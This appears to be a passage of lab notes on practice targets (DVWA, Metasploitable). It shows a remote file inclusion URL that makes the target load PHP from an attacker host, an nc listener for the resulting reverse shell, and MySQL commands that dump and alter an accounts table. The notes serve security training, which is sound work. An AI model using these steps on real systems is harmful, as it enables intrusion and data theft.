 Make sure your Kali server is running so dvwa can get the file:
```sh
sudo service apache2 start
```

Now on the dvwa site we can modify the url to look like this:
```sh
http://<website-ip>/dvwa/vulnerabilities/fi/?page=http://<attacker-ip>/file.txt?
```
- You might need to add a `?` at the end of the URL so the website runs the PHP code.
- It may be required to turn it from a PHP file to a text file depending on what the server accepts, in that case you would need the `?`

Start a listener:
```sh
nc -l -v -p 4444
```

Now use the URL on the DVWA website to hopefully get the reverse shell.

---

**Managing and Manipulating MySQL**

What is MySQL?
MySQL, is the most popular open-source relational database management system.

Opening MySQL on the metasploitable machine:
```sh
mysql -u root
```

Connecting to a different machine's MySQL
```sh
mysql -u <username> <ip>
```

View databases
```sh
show databases
```

View row
```sh
use owasp10;
```

View tables
```sh
show tables;
```

View table
```sh
select * from accounts; 
```
- * - Everything

insert an entry into accounts
```sh
insert into accounts (usrername,password,mysignature) values("bob","pass123","test signature");
```
- It will display that the query is okay if everything was entered correctly.
